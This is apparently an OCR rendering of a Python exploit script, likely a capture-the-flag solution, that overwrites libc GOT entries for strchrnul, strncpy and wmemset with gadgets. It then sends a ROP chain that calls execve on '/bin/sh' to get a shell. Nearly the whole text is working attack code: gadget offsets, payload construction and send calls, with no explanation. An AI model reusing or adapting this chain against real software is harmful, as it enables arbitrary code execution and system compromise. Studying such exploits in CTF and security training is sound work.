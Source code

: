 ```python
.got.plt:0000000000219098 off_219098      dq offset strlen        ; DATA XREF: j_strlen+4↑r
.got.plt:00000000002190A0 off_2190A0      dq offset strcasecmp_l  ; DATA XREF: j_strcasecmp_l+4↑r
.got.plt:00000000002190A8 off_2190A8      dq offset strcpy        ; DATA XREF: j_strcpy+4↑r
.got.plt:00000000002190B0 off_2190B0      dq offset wcschr        ; DATA XREF: j_wcschr+4↑r
.got.plt:00000000002190B8 off_2190B8      dq offset strchrnul     ; DATA XREF: j_strchrnul+4↑r
.got.plt:00000000002190C0 off_2190C0      dq offset memrchr       ; DATA XREF: j_memrchr+4↑r
.got.plt:00000000002190C8 off_2190C8      dq offset _dl_deallocate_tls
.got.plt:00000000002190D0 off_2190D0      dq offset __tls_get_addr
.got.plt:00000000002190D8 off_2190D8      dq offset wmemset       ; DATA XREF: j_wmemset_0+4↑r

# overwrite strchrnul.got with:
.text:0000000000173E0E                 lea     rdi, [rsp+18h]
.text:0000000000173E13                 mov     edx, 20h ; ' '
.text:0000000000173E18                 call    j_strncpy

# overwrite strncpy.got with:
.text:00000000000C5BF8                 pop     rbx
.text:00000000000C5BF9                 pop     rbp
.text:00000000000C5BFA                 pop     r12
.text:00000000000C5BFC                 pop     r13
.text:00000000000C5BFE                 jmp     j_wmemset_0

# overwrite wmemset.got with `gets`
'''

strchrnul_gadget = lbase + 0x0000000000173E0E
strncpy_gadget = lbase + 0x00000000000C5BF8
gets_ptr = lbase + 0x0000000000080520

write_dest = lbase + 0x0000000000219090
write_payload = flat(
    strncpy_gadget,
    0xdead0001,
    0xdead0002,
    0xdead0003,
    0xdead0004,
    strchrnul_gadget,
    0xdead0005,
    0xdead0006,
    0xdead0007,
    gets_ptr,
)

prdi = lbase + 0x000000000002a3e5
binsh = lbase + 0x00000000001D8698
prsi = lbase + 0x000000000002be51
prdx_rbx = lbase + 0x00000000000904a9
execve_ptr = lbase + 0x00000000000EB080

rop_payload = flat(
    prdi, binsh,
    prsi, 0,
    prdx_rbx, 0, 0,
    execve_ptr,
)

ss("write payload to {}, length {}".format(
    hex(write_dest), hex(len(write_payload))))
sd(p64(write_dest))
sd(p64(len(write_payload)))
sd(write_payload)
input()
# trigger gets(stack), send rop gadget
```